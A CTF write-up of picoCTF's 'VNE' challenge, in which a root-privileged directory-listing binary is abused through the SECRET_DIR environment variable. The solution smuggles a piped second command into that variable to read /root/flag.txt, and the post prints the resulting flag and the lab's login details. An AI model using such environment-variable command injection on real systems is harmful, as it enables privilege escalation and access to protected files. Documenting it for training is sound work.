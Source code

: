 ```yaml
---
layout: post
title:  "VNE"
subtitle: 2024-08-21
date:   2024-08-21
description: Abusing environment variables
tags: ["Binary", "Environment", "Injection"]
category: [CTF,picoCTF]
---
```


# Challenge Info
description: `We’ve got a binary that can list directories as root, try it out !! ssh to saturn.picoctf.net:59803, and run the binary named “bin” once connected. Login as ctf-player with the password, af86add3`

author: Junias Bonou

![vne](/assets/img/VNE/vne.png)

## Attempts
Upon connecting, I ran `pwd` and `ls` to see what we have:

```
ctf-player@pico-chall$ pwd
/home/ctf-player
ctf-player@pico-chall$ ls
bin
```
I tried navigating around with `cd`, until I finally found something interesting:
```
ctf-player@pico-chall$ cd ..
ctf-player@pico-chall$ ls
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var
ctf-player@pico-chall$ cd challenge
-bash: cd: challenge: Permission denied
```
A challenge folder, which the flag is probably inside of. Unfortunately, we can't navigate into it. Next, I tried seeing if sudo was available, to no success.

```
ctf-player@pico-chall$ sudo
-bash: sudo: command not found
ctf-player@pico-chall$
```

Finally, I want back to ctf-player to try and execute the binary we're given. Unfortunately, upon trying to execute it, I'm met with a problem:

```
ctf-player@pico-chall$ ls
bin
ctf-player@pico-chall$ ./bin
Error: SECRET_DIR environment variable is not set
ctf-player@pico-chall$
```
Okay, so lets try setting the `SECRET_DIR` environment variable:

```
ctf-player@pico-chall$ export SECRET_DIR=/
ctf-player@pico-chall$ ./bin
Listing the content of / as root:
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var
ctf-player@pico-chall$
```

## Understanding the Challenge
The binary called "bin" that we've been executing, reads directories with root permissions, so when we set `SECRET_DIR=/`, it read everything in / as root. Using this information, we can use the environment variable to poke around different directories, starting with `/challenge`:

```
ctf-player@pico-chall$ export SECRET_DIR=/challenge
ctf-player@pico-chall$ ./bin
Listing the content of /challenge as root:
config-box.py  metadata.json  profile
ctf-player@pico-chall$ export SECRET_DIR=/root
ctf-player@pico-call$ ./bin
Listing the contents of /root as root:
flag.txt
ctf-player@pico-chall$
```

So, while `/challenge` didn't yield any success, `/root` shows us where the flag is, and that it's in a `.txt`. Which is great and all, but how can we actually read the contents of it? As seen previously, `bin` only reads directories, so it doesn't serve any use... unless we can chain commands...

## Solution

```
ctf-player@pico-chall$ export SECRET_DIR="ls /root | cat /root/flag.txt"
ctf-player@pico-chall$ ./bin
Listing the content of ls /root | cat /root/flag.txt as root:
picoCTF{Power_t0_man!pul4t3_3nv_1670f174}ls: cannot access 'ls': No such file or directory
ctf-player@pico-chall$
```

flag: `picoCTF{Power_t0_man!pul4t3_3nv_1670f174}`
